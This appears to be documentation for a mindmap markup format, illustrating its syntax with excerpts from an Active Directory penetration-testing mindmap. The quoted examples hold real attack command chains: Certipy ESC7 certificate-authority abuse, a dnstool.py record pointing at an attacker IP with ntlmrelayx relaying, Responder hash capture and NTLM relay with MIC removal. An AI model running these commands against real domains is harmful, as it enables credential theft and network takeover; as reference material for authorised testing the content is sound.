 ## Real-World Examples from AD Mindmap

The Active Directory mindmap (`excalimap/mindmap/ad/`) contains extensive real-world examples. Here are key patterns used:

### Complex Multi-Level Nesting (from adcs.md)

```markdown
## ESC7
- Manage CA
  - `certipy ca -ca <ca_name> -add-officer '<user>'` >>> ESC7 Manage certificate
- Manage certificate
  - `certipy ca -ca <ca_name> -enable-template '<template>'`
    - `certipy req -username <user>@<domain> -template '<template>'`
      - error, but save private key and get issue request
  - Issue request
    - `certipy ca -u <user> -ca <ca_name> -issue-request <request_id>`
      - `certipy req -u <user> -ca <ca_name> -retreive <request_id>` >>> Pass the certificate
```

**Pattern:** Multi-step attack chain with nested commands showing the exact sequence.

### Complex Output Chains (from adcs.md)

```markdown
## Enumeration >>> Web enrollement || Vulnerable template || Vulnerable CA || Misconfigured ACL || Vulnerable PKI Object AC
```

**Pattern:** Single enumeration phase leads to multiple possible attack paths (5 parallel branches).

### Descriptive Intermediates (from sccm.md)

```markdown
## Elevate-3:Automatic client push Simple user >>> Relay ntlm
- Create DNS A record for non existing computer x
  - `dnstool.py -u '<domain>\<user>' -r <newcomputer>.<domain> -a add -t A -d <attacker_ip> <dc_ip>`
    - Enroll new computer x in AD then remove host SPN from the machine account
      - `setspn -D host/<newcomputer> <newcomputer>`
        - wait 5m for client push
          - `ntlmrelayx.py -tf <no_signing_target> -smb2support -socks`
            - cleanup
```

**Pattern:** Mix of commands and descriptive text showing workflow steps. Notice "wait 5m" and "cleanup" as info items.

### Conditional Logic (from mitm.md)

```markdown
## Listen >>> Hash NTLMv1 or NTLMv2 || Username || Credentials (ldap/http)
- `responder -l <interface> #use --lm to force downgrade`

## NTLM relay
- SMB -> LDAP(S)
  - NTLMv1
    - remove mic (no CVE needed) >>> see LDAP(S)
  - NTLMv2
    - Remove mic (CVE-2019-1040) @CVE@ >>> see LDAP(S)
```
